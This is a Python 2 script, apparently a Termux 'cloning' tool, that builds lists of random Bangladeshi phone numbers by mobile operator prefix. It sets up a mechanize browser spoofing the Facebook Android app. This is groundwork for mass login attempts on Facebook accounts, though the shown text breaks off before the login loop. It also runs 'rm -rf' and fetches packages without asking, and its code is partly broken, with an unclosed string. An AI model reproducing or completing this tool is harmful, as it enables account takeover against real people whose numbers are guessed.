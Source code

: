 # MR-RIFAT
Rifat
import os, sys, time, datetime, random, hashlib, re, threading, json, urllib, cookielib, getpass
os.system('rm -rf .txt')
 
def psb(z):
    for e in z + '\n':
        sys.stdout.write(e)
        sys.stdout.flush()
        time.sleep(0.03)
 
os.system('clear')
print
 
print
 
print("""

\033[0;94m  .------..------..------..------..------.
\033[0;94m|R.--. ||I.--. ||F.--. ||A.--. ||T.--. |
\033[0;96m| :(): || (\/) || :(): || (\/) || :/\: |
\033[0;96m | ()() || :\/: || ()() || :\/: || (__) |
\033[0;96m| '--'R|| '--'I|| '--'F|| '--'A|| '--'T|
 \033[0;96m`------'`------'`------'`------'`------'

print("\033[0;91mThis Tool's Free By Heron cyber")

psb('\x1b[1;92mBANGLADESH 6 DIGIT CLONING START PLEASE WAIT .....')
for n in range(90000):
    nmbr = random.randint(1111111, 9999999)
    sys.stdout = open('.txt', 'a')
    print nmbr
    sys.stdout.flush()
 
try:
    import requests
except ImportError:
    os.system('pip2 install requests')
 
try:
    import mechanize
except ImportError:
    os.system('pip2 install mechanize')
    time.sleep(1)
    os.system('python2 C')
 
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser
os.system('clear')
reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
br.addheaders = [
 ('user-agent', 'Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]
 
def exb():
    print
    os.sys.exit()
 
 
def psb(z):
    for e in z + '\n':
        sys.stdout.write(e)
        sys.stdout.flush()
        time.sleep(0.03)
 
 
def t():
    time.sleep(1)
 
 
def cb():
    os.system('clear')
 
logo = """
                                                                      
\033[0;94m   _    _                      
\033[0;94m   | |  | | 
\033[0;96m   | |__| | ___ _ __ ___  _ __
\033[0;96m   |  __  |/ _ \ '__/ _ \| '_ \ 
\033[0;96m   | |  | |  __/ | | (_) | | | |   
 \033[0;96m  |_|  |_|\___|_|  \___/|_| |_|
"""

back = 0
successful = []
cpb = []
oks = []
id = []
 
def menu():
    os.system('clear')
    print logo
    print ''
    print '\033[0;93mAUTHOR   : Rifat cyber'
    print '\033[0;94mFACEBOOK : Termux hacker Rifat'
    print '\033[0;96mGITHUB   : Hacker Rifat'
    print ''
    print '\033[0;90mONLY BANGLADESHI ACCOUNTS ARE AVAILABLE'
    print '\033[0;91m'
    print 50* '-'
    print '\033[0;92m[1]  \x1b[1;93mGP'
    print '\033[0;95m[2]  \x1b[1;95mRobi'
    print '\033[0;94m[3]  \x1b[1;94mAirtel'
    print '\033[0;92m[4]  \x1b[1;92mBanglalink'
    print '\033[0;96m[5]  \x1b[1;96mTeletalk'
    print '\033[0;90m[0]  \x1b[1;90mExit            '
    print '\033[0;91m'
    print 50 * '-'
    action()
 
 
def action():
    global cpb
    global oks
    bch = raw_input('\033[0;93m\n> ')
    if bch == '':
        print
        action()
    elif bch == '1':
        os.system('clear')
        print logo
        print 50* '-'
        print ''
        print '170,171, 172, 173, 174, 175, 176, 177, 178, 179,130,131, 132, 133, 134, 135, 136, 137, 138, 139'
        print''
        try:
            c = raw_input('\033[0;93mChoose Code : ')
            k = '+880'
            idlist = '.txt'
            for line in open(idlist, 'r').readlines():
                id.append(line.strip())
 
        except IOError:
            print '[!] File Not Found'
            raw_input('\n[ Back ]')
            menu()
 
    elif bch == '2':
        os.system('clear')
        print logo
        print 50* '-'
        print ''
        print '180,181, 182, 183, 184, 185, 186, 187, 188, 189'
        print''
        try:
            c = raw_input('\033[0;93mChoose Code : ')
            k = '+880'
            idlist = '.txt'
            for line in open(idlist, 'r').readlines():
                id.append(line.strip())
 
        except IOError:
            print '[!] File Not Found'
            raw_input('\n[ Back ]')
            menu()
 
    elif bch == '3':
        os.system('clear')
        print logo
        print 50* '-'
        print ''
        print '160,161, 162, 163, 164, 165, 166, 167, 168, 169'
        print''
        try:
            c = raw_input('\033[0;93mChoose Code : ')
            k = '+880'
            idlist = '.txt'
            for line in open(idlist, 'r').readlines():
                id.append(line.strip())
 
        except IOError:
            print '[!] File Not Found'
            raw_input('\n[ Back ]')
            menu()
 
    elif bch == '4':
        os.system('clear')
        print logo
        print 50* '-'
        print ''
        print '190,191, 192, 193, 194, 195, 196, 197, 198, 199,140,141, 142, 143, 144, 145, 146, 147, 148, 149'
        print''
        try:
            c
